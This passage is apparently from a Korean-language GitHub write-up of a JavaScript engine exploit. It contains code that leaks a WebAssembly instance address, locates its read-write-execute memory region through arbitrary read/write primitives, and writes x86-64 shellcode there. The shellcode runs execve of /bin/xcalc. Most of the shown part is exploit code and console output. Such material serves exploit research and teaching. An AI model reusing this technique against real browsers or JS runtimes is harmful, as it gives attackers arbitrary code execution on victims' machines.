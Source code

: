 ![image](https://github.com/user-attachments/assets/5a2aa443-3514-4a78-a87e-828523bd987e)

![image](https://github.com/user-attachments/assets/4055bca6-f3a4-4e8e-ae82-a14d32bd7d86)

![image](https://github.com/user-attachments/assets/bbd63b53-fa0c-45fa-b4e3-7fe4e12d795a)

```js
// get address of rwx region
let wasm_instance_addr = addrof(wasm_instance);
console.log(`[+] wasm_instance_addr == ${hex(wasm_instance_addr)}`);
let rwx = aarw(wasm_instance_addr - 1n + 0x80n);
console.log(`[+] rwx == ${hex(rwx)}`);
```

![image](https://github.com/user-attachments/assets/e6d46f42-54e5-4044-abb7-8dbf6917915d)

### Execute shellcode

AAW를 이용하여 RWX 영역에 shellcode를 쓰고 Wasm의 exported function을 호출하면 shellcode가 실행된다.

[shellcode.py](./shellcode.py)

```shell
$ python3 shellcode.py
[0x48, 0xc7, 0xc0, 0x6c, 0x63, 0x0, 0x0, 0x50, 0x48, 0xb8, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x78, 0x63, 0x61, 0x50, 0x48, 0x89, 0xe7, 0x48, 0x31, 0xf6, 0x48, 0xc7, 0xc0, 0x3a, 0x30, 0x0, 0x0, 0x50, 0x48, 0xb8, 0x44, 0x49, 0x53, 0x50, 0x4c, 0x41, 0x59, 0x3d, 0x50, 0x48, 0x89, 0xe0, 0x48, 0xc7, 0xc3, 0x0, 0x0, 0x0, 0x0, 0x53, 0x50, 0x48, 0x89, 0xe2, 0x48, 0xc7, 0xc0, 0x3b, 0x0, 0x0, 0x0, 0xf, 0x5]
```

```js
// execve("/bin/xcalc", 0, ["DISPLAY=:0", 0])
let shellcode = [0x48, 0xc7, 0xc0, 0x6c, 0x63, 0x0, 0x0, 0x50, 0x48, 0xb8, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x78, 0x63, 0x61, 0x50, 0x48, 0x89, 0xe7, 0x48, 0x31, 0xf6, 0x48, 0xc7, 0xc0, 0x3a, 0x30, 0x0, 0x0, 0x50, 0x48, 0xb8, 0x44, 0x49, 0x53, 0x50, 0x4c, 0x41, 0x59, 0x3d, 0x50, 0x48, 0x89, 0xe0, 0x48, 0xc7, 0xc3, 0x0, 0x0, 0x0, 0x0, 0x53, 0x50, 0x48, 0x89, 0xe2, 0x48, 0xc7, 0xc0, 0x3b, 0x0, 0x0, 0x0, 0xf, 0x5];

// write shellcode to rwx region
console.log("[+] Writing shellcode...");
for (let i = 0; i < shellcode.length / 8; i++) {
    let value = 0n;
    for (let j = 0; j < 8; j++) {
        try {
            value += BigInt(shellcode[i * 8 + j]) << BigInt(j * 8);
        } catch (e) { }
    }
    aarw(rwx + BigInt(i * 8), value);
}
```

![image](https://github.com/user-attachments/assets/9fb76a98-274f-400b-8b8c-d1556e53c90c)
